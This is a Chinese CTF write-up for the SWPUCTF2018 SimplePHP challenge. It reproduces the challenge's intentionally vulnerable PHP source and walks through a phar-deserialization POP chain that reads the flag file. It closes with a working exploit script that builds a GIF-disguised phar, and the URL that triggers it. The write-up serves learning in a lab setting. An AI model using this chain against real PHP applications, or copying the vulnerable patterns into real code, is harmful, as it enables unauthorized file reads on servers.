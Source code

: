 # \[SWPUCTF2018] SimplePHP

## \[SWPUCTF2018] SimplePHP

## 考点

* 代码审计
* phar反序列化
* pop链构造

## wp

### 源码

打开靶机，在查看文件这里可以看到 url 为 `http://f292dcfd-887b-4ebb-b292-7d78df57cc52.node3.buuoj.cn/file.php?file=` 不难想到文件包含

试试 php://filter/ 发现没有反应，但是直接输入文件名可以读取文件，分别获取 file.php function.php class.php upload\_file.php base.php

{% code title="file.php" %}
```php
<?php 
header("content-type:text/html;charset=utf-8");  
include 'function.php'; 
include 'class.php'; 
ini_set('open_basedir','/var/www/html/'); 
$file = $_GET["file"] ? $_GET['file'] : ""; 
if(empty($file)) { 
    echo "<h2>There is no file to show!<h2/>"; 
} 
$show = new Show(); 
if(file_exists($file)) { 
    $show->source = $file; 
    $show->_show(); 
} else if (!empty($file)){ 
    die('file doesn\'t exists.'); 
} 
```
{% endcode %}

{% code title="function.php" %}
```php
<?php 
include "base.php"; 
header("Content-type: text/html;charset=utf-8"); 
error_reporting(0); 
function upload_file_do() { 
    global $_FILES; 
    $filename = md5($_FILES["file"]["name"].$_SERVER["REMOTE_ADDR"]).".jpg"; 
    //mkdir("upload",0777); 
    if(file_exists("upload/" . $filename)) { 
        unlink($filename); 
    } 
    move_uploaded_file($_FILES["file"]["tmp_name"],"upload/" . $filename); 
    echo '<script type="text/javascript">alert("上传成功!");</script>'; 
} 
function upload_file() { 
    global $_FILES; 
    if(upload_file_check()) { 
        upload_file_do(); 
    } } 
function upload_file_check() { 
    global $_FILES; 
    $allowed_types = array("gif","jpeg","jpg","png"); 
    $temp = explode(".",$_FILES["file"]["name"]); 
    $extension = end($temp); 
    if(empty($extension)) { 
        //echo "<h4>请选择上传的文件:" . "<h4/>"; 
    } 
    else{ 
        if(in_array($extension,$allowed_types)) { 
            return true; 
        } 
        else { 
            echo '<script type="text/javascript">alert("Invalid file!");</script>'; 
            return false; 
        }}} 
```
{% endcode %}

{% code title="class.php" %}
```php
<?php
class C1e4r{
    public $test;
    public $str;
    public function __construct($name){
        $this->str = $name;}
    public function __destruct(){
        $this->test = $this->str;
        echo $this->test;}}
class Show{
    public $source;
    public $str;
    public function __construct($file){
        $this->source = $file;   //$this->source = phar://phar.jpg
        echo $this->source;}
    public function __toString(){
        $content = $this->str['str']->source;
        return $content;}
    public function __set($key,$value){
        $this->$key = $value;}
    public function _show(){
        if(preg_match('/http|https|file:|gopher|dict|\.\.|f1ag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }}
    public function __wakeup(){
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
            }}}
class Test{
    public $file;
    public $params;
    public function __construct(){
        $this->params = array();}
    public function __get($key){
        return $this->get($key);}
    public function get($key){
        if(isset($this->params[$key])) {
            $value = $this->params[$key];
        } else {
            $value = "index.php";}
        return $this->file_get($value);}
    public function file_get($value){
        $text = base64_encode(file_get_contents($value));
        return $text;}}
```
{% endcode %}

{% code title="upload_file.php" %}
```php
<?php 
include 'function.php'; 
upload_file(); 
?>  
```
{% endcode %}

{% code title="base.php" %}
```php
<?php 
    session_start(); 
	echo $_SERVER['REMOTE_ADDR'];
?>  
```
{% endcode %}

### phar反序列化 <a href="#185268911" id="185268911"></a>

拿到源码后进行审计，发现在对上传文件检查( upload\_file\_check )时，采用了白名单的方式

![](../../.gitbook/assets/w4v8cqMe2uHsib5.png)

这样我们能够选择的绕过方式就不多了，可以去考虑 phar ，然后在 file.php 中发现调用了`file_exists()`函数，这给构造 phar 反序列化提供了条件

![](../../.gitbook/assets/W6gNpyT8dCHX1hk.png)

接下来就是读取文件了，在 `Test` 类的 `file_get()` 调用了 `file_get_contents` 获取文件内容，或许这就是突破口。`file_get()` 被调用的前提是 `Test` 类的实例化对象调用了未定义的属性或没有权限访问的属性，即 `__get()` 函数被调用

![](../../.gitbook/assets/pq5UNuDmJQAMWTi.png)

如何让 `Test` 类的 `__get()` 函数被调用，在 `Show` 类的 `__toString()` 方法中，`$this->str['str']->source` 访问了自己的 `source` 变量，这个变量 `Test` 类可没有，所以这就是让 `$this->str['str']` 为 `Test` 类的实例化对象。

![](../../.gitbook/assets/JmPztZ4ST2R6KEA.png)

如何让 `Show` 类的 `__toString()` 方法被调用，可以看到在 `C1e4r` 中的 `__destruct()` 函数调用了 `echo $this->test;` 让 `test` 是 `Show` 类的实例化对象即可

![](../../.gitbook/assets/Zfc3tNgPbqWnuo4.png)

最后是上传的路径，在 `upload_file_do()` 中给出了文件存储位置，实际上可以选择直接访问 /upload 寻找

上传路径为 `/upload/md5(filename+ip+.jpg)`

![](<../../.gitbook/assets/image (1).png>)

flag 的位置在 `Show` 类的 `_show()` 函数也可以看到提示，file.php 页面的注释中也有

要注意的是读取 flag 只能用绝对路径，不能使用相对路径

{% code title="exp.php" %}
```php
<?php
class C1e4r{
    public $test;
    public $str;

}
class Show{
    public $source;
    public $str;
}
class Test{
    public $file;
    public $params;
}
$a = new Test();
$a->params['source'] = "/var/www/html/f1ag.php";
$b = new Show();
$b->str['str'] = $a;
$c = new C1e4r();
$c->str = $b;
$phar = new Phar("1.phar", 0, '1.phar');
$phar->startBuffering();
$phar->addFromString("test.txt", "test");
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($c);
$phar->stopBuffering();
?>
```
{% endcode %}

访问`file.php?file=phar://upload/8adc336297a3d5eb2550edc08aa372a8.jpg`即可
